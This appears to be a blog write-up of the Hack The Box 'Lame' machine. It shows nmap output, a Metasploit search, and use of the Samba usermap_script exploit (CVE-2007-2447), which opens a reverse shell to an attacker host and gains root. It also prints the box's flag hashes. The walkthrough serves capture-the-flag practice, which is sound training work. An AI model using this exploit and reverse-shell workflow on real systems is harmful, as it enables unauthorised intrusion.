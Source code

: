 ```yaml
---
layout: post
title: Lame - Hackthebox
date: 2019-10-03
Author: IamFromIndia
tags: [sample, document]
toc: 
pinned: true
---
```


### Lame is a beginner box. With basic enumeration and some research you will get user and the root pretty easily.

![Box](https://i.ibb.co/z7wqbNQ/Captura-de-tela-em-2019-10-03-17-30-29.png)


# ENUMERATION

### I'll start with a basic enumeration, to do that I used nmap with flags -T4 -A -v

```
┌─[iamfromindia@parrot]─[~/Documentos/htb/boxes/lame]
└──╼ #nmap -T4 -A -v 10.10.10.3

```

### We find port 21, 22, 139 and 445 open

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Arris TG562G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Linksys WRV54G WAP (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.076 days (since Thu Oct  3 15:52:27 2019)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=192 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h00m23s, deviation: 0s, median: 4h00m23s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-10-03T16:41:57-04:00
|_smb2-time: Protocol negotiation failed (SMB2)


```

### I've tried exploit port 21, vsftpd 2.3.4 is indeed vulnerable but I wasn't successful. So I realized that Samba 3.0.20 was vulnerable too. I did search about samba in metasploit finding many results

```
msf5 > search samba 3.0.20

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   1   auxiliary/admin/http/wp_easycart_privilege_escalation  2015-02-25       normal     Yes    WordPress WP EasyCart Plugin Privilege Escalation
   11  exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/linux/samba/setinfopolicy_heap                 2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   13  exploit/linux/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   14  exploit/multi/samba/nttrans                            2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   15  exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   16  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow

   
```
# EXPLOITATION

### Then I've used the exploit/multi/samba/usermap_script module because this version of samba is vulnerable. (CVE-2007–2447)

```
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.10:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r43tyRSiXyHwgK4g;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r43tyRSiXyHwgK4g\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:48359) at 2019-10-03 18:45:37 -0300

python -c 'import pty;pty.spawn("/bin/bash")' 
root@lame:/# whoami
whoami
root
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
root@lame:/# cat ~/root.txt
cat ~/root.txt
92caac3be140ef409e45721348a4e9df
root@lame:/# 

```
### I used python -c ‘import pty;pty.spawn(“/bin/bash”)’ to spawn a tty shell and done
### box owned!! this box is very easy, but for a beginner it's definitely a great box.

### Stay in peace, guys!
